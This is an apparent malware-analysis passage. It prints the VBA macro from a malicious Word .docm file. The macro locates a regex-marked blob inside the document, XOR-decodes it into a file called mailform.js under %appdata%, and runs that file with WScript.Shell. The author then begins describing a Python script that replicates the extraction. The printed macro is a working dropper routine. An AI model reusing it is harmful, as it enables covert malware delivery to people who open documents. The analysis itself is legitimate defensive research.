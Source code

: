 ```vb
var_string = StrConv(var_byte1, vbUnicode)
Dim var_???1, var_matchedregex
Dim var_class
    Set var_class = CreateObject("vbscript.regexp")
    var_class.Pattern = "sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa"
    Set var_matchedregex = var_class.Execute(var_string)
Dim var_regexshenanigan
If var_matchedregex.Count = 0 Then
GoTo jumper1
End If
For Each var_???1 In var_matchedregex
var_regexshenanigan = var_???1.FirstIndex
Exit For
Next
Dim var_byte2() As Byte
Dim var_long As Long
var_long = 13082
ReDim var_byte2(var_long)
Get #var_file, var_regexshenanigan + 81, var_byte2
If Not func_xor(var_byte2(), var_long + 1) Then
GoTo jumper1
End If
var_filepath = "%appdata%\Microsoft\Windows"
Set var_scriptingfilesystemobject = CreateObject("Scripting.FileSystemObject")
If Not var_scriptingfilesystemobject.FolderExists(var_filepath) Then
var_filepath = "%appdata%"
End If
Set var_scriptingfilesystemobject = Nothing
Dim var_file2
var_file2 = FreeFile
IAiiymixt = var_filepath & "\mailform.js"
Open (IAiiymixt) For Binary As #var_file2
Put #var_file2, 1, var_byte2
Close #var_file2
Erase var_byte2
Set var_shellscript = CreateObject("WScript.Shell")
var_shellscript.Run """" + IAiiymixt + """ vF8rdgMHKBrvCoCp0ulm"
ActiveDocument.Save
Exit Sub
jumper1:
Close #var_file2
ActiveDocument.Save
End If
End Sub
```


After examining this script, I've concluded, that important bit (the actual mailform.js malware script) is hidden inside docm file after certain regex pattern, and then XORed couple of times. So, I wrote python script that will just replicate the steps:
